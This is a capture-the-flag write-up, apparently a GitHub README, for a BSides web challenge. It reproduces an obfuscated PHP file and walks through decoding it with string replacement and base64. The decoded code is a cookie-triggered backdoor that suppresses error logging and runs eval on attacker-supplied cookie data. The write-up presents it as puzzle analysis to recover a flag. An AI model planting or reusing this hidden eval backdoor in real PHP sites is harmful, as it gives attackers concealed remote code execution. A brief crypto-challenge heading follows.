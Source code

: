 # Web Challenge : 50 Point
- The Challenge is a [zip](https://github.com/X-Vector/CTF/blob/master/Bsides/c99.zip) file Which Contain a php code 
``` 
<?php
$kyo1="JGM9J2NvdW50JzskYT0kX0NPT0tecJRTtecpZihyZecXecNecldCgkYSeck9PSecdecmbCcgJiYgJGMecoJGEpPjMpe2luaec";
$kyo3="zectldmFsecKGecJhc2Uec2NF9kZWNvZGUocHJlZ19ecyZXecBsYWNlKGecFycmF5KCcvW15cdz1cc1ec0vJywnL1xeczLycpLCBhcnJ";
$gj = "bcoxacoxse64cox_coxdcoxecoxccoxode";
$kyo4="heecSgnJywnKycpLCBqb2luKGecFyeccmF5X3NsaWNlKCecRhLCRjKCRhKS0zKSkpKSeckec7ZWNobyAnPC8nLiRrLiecc+Jzt9";
$iuq = "str_replace";
$kyo2="V9zZecXQoJ2Vyeccm9yX2xvZycecsICcvecZGV2L251bGwnKTskecaecz0nYWd7aGlkZGVuecX2eclecuX3BocH0nO2VjecaG8gJzwnLeciRecrLic+J";
$gj = $iuq("cox", "", $gj);
eval($gj($iuq("ec", "", $kyo1.$kyo2.$kyo3.$kyo4)));
?>
``` 
- first the variable `$iuq` containe a php build in function which is used to replcae any this words `ec` in this variables `$kyo1,$kyo2,$kyo3,$kyo4` with nothing then when excute the code the output will be 

```
JGM9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYSk9PSdmbCcgJiYgJGMoJGEpPjMpe2luaV9zZXQoJ2Vycm9yX2xvZycsICcvZGV2L251bGwnKTskaz0nYWd7aGlkZGVuX2luX3BocH0nO2VjaG8gJzwnLiRrLic+JztldmFsKGJhc2U2NF9kZWNvZGUocHJlZ19yZXBsYWNlKGFycmF5KCcvW15cdz1cc10vJywnL1xzLycpLCBhcnJheSgnJywnKycpLCBqb2luKGFycmF5X3NsaWNlKCRhLCRjKCRhKS0zKSkpKSk7ZWNobyAnPC8nLiRrLic+Jzt9
```
- decode it with base64 then the output will be 
```
$c='count';$a=$_COOKIE;if(reset($a)=='fl' && $c($a)>3){ini_set('error_log', '/dev/null');$k='ag{hidden_in_php}';echo '<'.$k.'>';eval(base64_decode(preg_replace(array('/[^\w=\s]/','/\s/'), array('','+'), join(array_slice($a,$c($a)-3)))));echo '</'.$k.'>';}
```
- you will see that variable `$a` is `fl` and variable `$k` is `ag{hidden_in_php}` so your flag is `flag{hidden_in_php}`


# Crypto Challenge : 50 Point 
- The Challenge is a [mp3](https://github.com/X-Vector/CTF/blob/master/Bsides/abusing.mp3) file 
